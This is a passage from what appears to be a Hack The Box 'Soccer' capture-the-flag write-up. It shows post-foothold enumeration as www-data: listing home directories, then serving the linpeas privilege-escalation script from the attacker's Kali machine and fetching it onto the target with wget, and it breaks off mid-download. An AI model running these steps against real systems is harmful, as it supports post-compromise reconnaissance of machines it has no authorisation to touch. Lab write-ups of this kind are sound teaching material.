 Our target is running on Ubuntu 20.04.5 and a x86_64 architecture and the kernel is Linux 5.4.0-135-generic. This information is important to have for any exploit if available. 
Let's continue with enumerating, we should focus on the users on the system.
```bash
www-data@soccer:~/html/tiny/uploads$ ls -ahlR /home
ls -ahlR /home
/home:
total 12K
drwxr-xr-x  3 root   root   4.0K Nov 17  2022 .
drwxr-xr-x 21 root   root   4.0K Dec  1  2022 ..
drwxr-xr-x  3 player player 4.0K Nov 28  2022 player

/home/player:
total 28K
drwxr-xr-x 3 player player 4.0K Nov 28  2022 .
drwxr-xr-x 3 root   root   4.0K Nov 17  2022 ..
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .bash_history -> /dev/null
-rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 player player 3.7K Feb 25  2020 .bashrc
drwx------ 2 player player 4.0K Nov 17  2022 .cache
-rw-r--r-- 1 player player  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root      9 Nov 17  2022 .viminfo -> /dev/null
-rw-r----- 1 root   player   33 Mar  8 15:29 user.txt
ls: cannot open directory '/home/player/.cache': Permission denied

```
We have discovered a home directory for a user `player`. This user has a `user.txt` file what we should capture. We are not allowed to read the file as  `www-data`. Let's use linpease to enumerate automatically a bit. We have to host it with a python webserver so we can download it at the target.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ cp /opt/linpeas/linpeas.sh .                       

┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ sudo python3 -m http.server 80  
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
First we should move to a share where we can download the file. Next we should have to add execute permissions to file.
```bash
www-data@soccer:~/html/tiny$ cd /tmp
cd /tmp
www-data@soccer:/tmp$ wget http://10.10.14.124/linpeas.sh
wget http://10.10.14.124/linpeas.sh
--2024-03-08 16:47:04--  http://10.10.14.124/linpeas.sh
Connecting to 10.10.14.124:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 848317 (828K) [text/x-sh]
Saving to: 'linpeas.sh'

     0K .......... .......... .......... .......... ..........  6% 84.7K 9s
    50K .......... .......... .......... .......... .......... 12%  148K 7s
   100K .......... .......... .......... .......... .......... 18%  242K 5s
   150K .......... .......... .......... .......... .......... 24% 96.8K 5s
   200K .......... .......... .......... .......... .......... 30% 98.3M 4s
   250K .......... .......... .......... .......... .......... 36% 49.6M 3s
   300K .......... .......... .......... .......... .......... 42%  105K 3s
   350K .......... .......... .......... .......... .......... 48%  136K 3s
   400K .......... .......... .......... .......... .......... 54% 32.2M 2s
   450K .......... .......... .......... .......... .......... 60%  281K 2s
   500K .......... .......... .......... .......... .......... 66%  158K 2s
   550K .......... .......... .......... .......... .......... 72%  163K 1s
```